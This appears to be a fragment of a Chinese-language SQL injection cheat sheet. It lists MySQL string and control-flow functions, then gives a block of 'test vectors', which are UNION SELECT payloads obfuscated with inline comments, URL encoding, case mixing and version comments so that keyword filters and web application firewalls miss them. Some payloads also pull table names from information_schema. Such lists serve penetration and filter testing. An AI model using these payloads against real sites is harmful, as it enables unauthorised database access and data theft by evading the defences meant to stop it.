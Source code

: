 ``` sql
field('a','a')
  
count(concat('a','a'))
#字符串长度
  
length()
  
bit_length()
  
char_length()
  
octet_length()
  
bit_count()
#关键字过滤
  
Connected keyword filtering
  
(0)union(select(table_name),column_name,…
  
0/**/union/*!50000select*/table_name`foo`/**/…
  
0%a0union%a0select%09group_concat(table_name)….
  
0′union all select all`table_name`foo from`information_schema`. `tables`
#控制流
  
case 'a' when 'a' then 1 [else 0] end
  
case when 'a'='a' then 1 [else 0] end
  
if('a'='a',1,0)
  
ifnull(nullif('a','a'),1)
```  

d) 测试向量
``` sql  
%55nion(%53elect 1,2,3)-- -
+union+distinctROW+select+
  
/**//*!12345UNION SELECT*//**/
  
/**/UNION/**//*!50000SELECT*//**/
  
/*!50000UniON SeLeCt*/
  
+#uNiOn+#sEleCt
  
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
  
/*!u%6eion*/ /*!se%6cect*/
  
+un/**/ion+se/**/lect
  
uni%0bon+se%0blect
  
%2f**%2funion%2f**%2fselect
  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  
REVERSE(noinu)+REVERSE(tceles)
  
/*--*/union/*--*/select/*--*/
```